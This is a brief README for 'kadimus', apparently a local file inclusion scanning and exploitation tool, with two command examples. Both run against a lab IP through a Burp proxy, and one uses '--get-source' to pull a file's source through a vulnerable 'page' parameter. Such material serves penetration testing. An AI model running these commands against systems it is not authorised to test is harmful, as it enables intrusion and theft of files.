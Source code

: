 # kadimus

LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

## general scan, through burp and save results

```
kadimus -u http://192.168.56.103/?page=login --proxy http://127.0.0.1:8080 --output outputfile
```

## get file

```
kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "login" --proxy http://127.0.0.1:8080
``` 